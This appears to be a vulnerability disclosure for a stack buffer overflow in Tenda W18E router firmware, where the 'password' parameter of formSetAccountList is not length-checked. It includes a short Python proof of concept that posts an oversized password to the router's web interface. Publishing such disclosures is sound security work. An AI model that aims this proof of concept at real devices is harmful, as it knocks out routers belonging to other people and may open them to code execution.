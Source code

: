 # Tenda W18E formSetAccountList
### Overview
vendor: Tenda

product: W18E

version: V16.01.0.13(3742) and before

type: Stack Overflow
### Vulnerability Description
Tenda W18E V16.01.0.13(3742) were discovered to contain a stack overflow in the formSetAccountList function. Devices allows remote attackers to cause a denial of service via a crafted parameter for the http post request.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/w18e-3-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
